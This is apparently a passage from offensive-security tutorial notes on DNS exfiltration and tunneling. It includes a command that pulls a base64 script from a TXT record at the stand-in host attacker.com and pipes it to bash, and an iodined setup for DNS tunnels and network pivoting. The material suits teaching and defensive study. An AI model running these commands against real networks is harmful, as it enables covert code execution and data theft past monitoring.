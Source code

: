 `On the victim machine` We encode the script to base64

```
cat /tmp/script.sh | base64
```

`On the attacker side` Now that we have the Base64 representation of our script, we add it as a TXT DNS record to the domain we control, which in this case, `attacker.com`. Once we added it, let's confirm that we successfully created the script's DNS record by asking the local DNS server to resolve the TXT record of `script.attacker.com`. If everything is set up correctly, we should receive the base64 content of the script as an output to the below command

```
dig +short -t TXT script.attacker.com
```

`Lastly, On the attacker machine` We clean the output before executing the script using tr and delete any double quotes ". Then, we decoded the Base64 text representation using base64 -d and finally passed the content to the bash command to execute.

```
dig +short -t TXT script.attacker.com | tr -d "\"" | base64 -d | bash
```

**DNS Tunneling**

This technique is also known as TCP over DNS, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the DNS Data Exfiltration technique. DNS Tunneling establishes a communication channel where data is sent and received continuously. To establish DNS Tunnels we use a tool called #iodine

```
https://github.com/yarrick/iodine
```

**DNS Tunneling Steps** `Note One` For the purpose of exfiltrating data over dns tunnels follow step 1 and 2 and then you can perform the same steps used above in the manual data exfiltration Note Two\` For the purpose of network pivoting and accessing resources and internal networks, follow all below steps

1. Run **iodined** server from the Attacker machine. (note for the **server** side we use iodine**d**) `On the attacker machine`

```
sudo iodined -f -c -P dnstunneling 10.1.1.1/24 attack.attacker.com
```

**Command explanation**

* Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
* The -f argument is to run the server in the foreground.
* The -c argument is to skip checking the client IP address and port for each DNS request.
* The -P argument is to set a password for authentication.
* &#x20;The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
* attack.attacker.com is the nameserver we set through configuring DNS settings on the attacker side
